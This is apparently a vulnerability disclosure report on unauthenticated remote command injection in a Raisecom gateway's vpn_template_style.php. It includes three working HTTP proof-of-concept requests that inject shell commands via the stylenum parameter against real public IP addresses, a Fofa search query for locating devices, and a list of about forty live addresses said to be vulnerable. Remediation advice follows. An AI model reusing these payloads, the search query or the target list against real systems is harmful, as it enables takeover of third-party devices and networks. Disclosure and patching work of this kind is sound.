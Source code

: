## Vulnerability Title
Remote Command Execution Vulnerability in Raisecom Multi-Service Intelligent Gateway vpn_template_style.php.

## Vulnerability Overview
The `/vpn/vpn_template_style.php` interface in the Raisecom Multi-Service Intelligent Gateway is vulnerable to remote command execution. An attacker can exploit this vulnerability by crafting a malicious request parameter `stylenum` and injecting system commands using backticks (`) or pipe symbols (|). This bypasses security mechanisms, allowing the execution of arbitrary commands on the target device (e.g., writing files, executing system operations). The vulnerability can be exploited without authentication and affects multiple asset instances. Verified affected addresses include [http://177.221.184.71](http://177.221.184.71) and [http://112.28.53.207:8090](http://112.28.53.207:8090).

## Vulnerability Proof
### (1) Vulnerability Reproduction
#### Reproduction 1
+ **Target IP**: [http://177.221.184.71](http://177.221.184.71)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\\\'123\\\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 177.221.184.71
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

**Verification Result**:

+ The request successfully triggers command execution, writing the file `/www/tmp/test123123.txt`.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739025233630-f0ceb5c6-8eb5-4690-a3ad-381f4f5689cf.png)
+ Accessing [http://177.221.184.71/tmp/test123123.txt](http://177.221.184.71/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028312065-f2260e49-5922-42d0-959d-3cc30566b2b5.png)

#### Reproduction 2
+ **Target IP**: [http://112.28.53.207:8090](http://112.28.53.207:8090)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\'123\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 112.28.53.207:8090
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

+ The command is executed, and the file is written. A 200 response indicates successful execution.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028318030-30443209-9f11-4736-aeeb-90b57c2543af.png)
+ Accessing [http://112.28.53.207:8090/tmp/test123123.txt](http://112.28.53.207:8090/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028326917-fadda49d-010b-47e2-8ef7-806586b8327b.png)

#### Reproduction 3
+ **Target IP**: [http://138.185.143.32](http://138.185.143.32)
+ **POC**:

```plain
GET /vpn/vpn_template_style.php?mySubmit=true&stylenum=%60echo+-e+\'123\'%3E/www/tmp/test123123.txt%60 HTTP/1.1
Host: 138.185.143.32
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

+ Manual verification confirms the command execution.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028333927-bda7162a-b7b6-4893-a1e2-66f80c0b0b27.png)
+ Accessing [http://138.185.143.32/tmp/test123123.txt](http://138.185.143.32/tmp/test123123.txt) confirms the file content is "123" (see screenshot).
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028339066-746c16ea-85af-4641-98c0-b7f26f1aaaca.png)

### (2) Verified Affected Addresses
Partially verified affected addresses:

+ [http://177.221.184.71](http://177.221.184.71)
+ [http://112.28.53.207:8090](http://112.28.53.207:8090)
+ [http://138.185.143.32](http://138.185.143.32)
+ [https://168.194.36.176/vpn/vpn_template_style.php](https://168.194.36.176/vpn/vpn_template_style.php)
+ [http://191.36.225.86/vpn/vpn_template_style.php](http://191.36.225.86/vpn/vpn_template_style.php)

For the complete list, refer to the end of the document.

### (3) Asset Ownership Proof
The following methods confirm asset ownership by Raisecom Technology Co., Ltd.:

+ Accessing [http://ip/down.php](http://ip/down.php) reveals device manufacturer information.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028352712-fe47eefd-5a67-4980-be98-fdc85af9061f.png)
+ Fofa search syntax: `body="/images/raisecom/back.gif" && title=="Web user login"` locates target assets.
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028358607-af5471f6-678f-4e48-a29d-93b05301edbb.png)
+ Third-party security company (Knownsec) published vulnerability analysis reports. The report from Knownsec's security intelligence platform confirms asset ownership before releasing the vulnerability details.`https://mp.weixin.qq.com/s/iSfsiXFgaPLHtRPATslzUw`
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028366283-a9af1cdd-0695-4a37-a3ef-a4f2217b4c11.png)
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739028371561-3af7a6b3-7d4a-46e2-8a53-906773184f2c.png)

## Vulnerability Impact
1. **Complete Device Control**: Attackers can execute arbitrary system commands, taking full control of the gateway device.
2. **Data Leakage**: Command injection can read sensitive configuration files, user credentials, or network topology information.
3. **Service Disruption**: Malicious commands may cause device reboots, service crashes, or configuration tampering.
4. **Internal Network Penetration**: Compromised devices can be used as a springboard to attack other internal systems, expanding the attack scope.
5. **Compliance Risks**: The vulnerability may violate the "Cybersecurity Law" or industry security standards, leading to legal liabilities.

## Remediation Strategies
1. **Input Filtering and Parameter Whitelisting**:
    - Strictly filter the `stylenum` parameter, prohibiting special characters like backticks (`) and pipe symbols (|).
    - Only allow legitimate values that conform to business logic (e.g., predefined style numbers).
2. **Code-Level Fixes**:
    - Use secure functions (e.g., `escapeshellarg()`) to handle external inputs, avoiding direct command concatenation.
    - Remove or disable unnecessary command execution functions in `vpn_template_style.php`.
3. **Least Privilege Principle**:
    - Run the web service process with a low-privilege account, prohibiting system administrator privileges.
4. **Deploy Web Application Firewall (WAF)**:
    - Configure rules to block requests containing sensitive keywords like `echo`, `>`, and backticks.
5. **Firmware Updates and Vulnerability Monitoring**:
    - Promptly apply firmware patches released by the vendor.
    - Use vulnerability scanning tools (e.g., Nuclei, Nessus) to regularly assess device security.
6. **Emergency Response Measures**:
    - Immediately take the affected interface offline and investigate whether the device has been compromised.
    - Reset device administrator passwords and audit logs to identify potential attack traces.

**Note**: It is recommended to track vulnerability remediation progress through platforms like CNVD/CVE to ensure comprehensive risk elimination.

## Attachments
### (1) Partial IP Assets
+ [https://168.194.36.176/vpn/vpn_template_style.php](https://168.194.36.176/vpn/vpn_template_style.php)
+ [http://191.36.225.86/vpn/vpn_template_style.php](http://191.36.225.86/vpn/vpn_template_style.php)
+ [http://138.185.141.191/vpn/vpn_template_style.php](http://138.185.141.191/vpn/vpn_template_style.php)
+ [https://221.207.5.42/vpn/vpn_template_style.php](https://221.207.5.42/vpn/vpn_template_style.php)
+ [http://112.27.90.154:8088/vpn/vpn_template_style.php](http://112.27.90.154:8088/vpn/vpn_template_style.php)
+ [https://123.138.105.106:9090/vpn/vpn_template_style.php](https://123.138.105.106:9090/vpn/vpn_template_style.php)
+ [https://116.177.32.7/vpn/vpn_template_style.php](https://116.177.32.7/vpn/vpn_template_style.php)
+ [https://116.177.32.9/vpn/vpn_template_style.php](https://116.177.32.9/vpn/vpn_template_style.php)
+ [https://221.207.5.16/vpn/vpn_template_style.php](https://221.207.5.16/vpn/vpn_template_style.php)
+ [https://221.11.104.76/vpn/vpn_template_style.php](https://221.11.104.76/vpn/vpn_template_style.php)
+ [https://201.201.155.193/vpn/vpn_template_style.php](https://201.201.155.193/vpn/vpn_template_style.php)
+ [https://221.207.5.29/vpn/vpn_template_style.php](https://221.207.5.29/vpn/vpn_template_style.php)
+ [https://201.201.150.9/vpn/vpn_template_style.php](https://201.201.150.9/vpn/vpn_template_style.php)
+ [https://138.185.143.144/vpn/vpn_template_style.php](https://138.185.143.144/vpn/vpn_template_style.php)
+ [http://131.100.64.152](http://131.100.64.152)
+ [http://221.207.52.140](http://221.207.52.140)
+ [http://201.205.119.10](http://201.205.119.10)
+ [https://124.152.40.208](https://124.152.40.208)
+ [https://112.28.62.112:8091](https://112.28.62.112:8091)
+ [http://117.162.137.25:8090](http://117.162.137.25:8090)
+ [http://120.206.197.188:8090](http://120.206.197.188:8090)
+ [https://139.170.141.87](https://139.170.141.87)
+ [http://200.124.184.46](http://200.124.184.46)
+ [http://111.38.250.34:8117](http://111.38.250.34:8117)
+ [http://60.174.38.36:8889](http://60.174.38.36:8889)
+ [https://139.170.141.73](https://139.170.141.73)
+ [https://124.152.40.212](https://124.152.40.212)
+ [https://139.170.141.77](https://139.170.141.77)
+ [http://138.185.141.186:1024](http://138.185.141.186:1024)
+ [https://112.28.94.62:8091](https://112.28.94.62:8091)
+ [http://111.12.195.166:9300](http://111.12.195.166:9300)
+ [https://221.199.18.186:4443](https://221.199.18.186:4443)
+ [http://112.31.174.87:8117](http://112.31.174.87:8117)
+ [http://201.205.108.86](http://201.205.108.86)
+ [http://115.150.63.10:8090](http://115.150.63.10:8090)
+ [http://112.26.239.148:8117](http://112.26.239.148:8117)
+ [https://177.190.76.133](https://177.190.76.133)
+ [https://139.170.141.90](https://139.170.141.90)

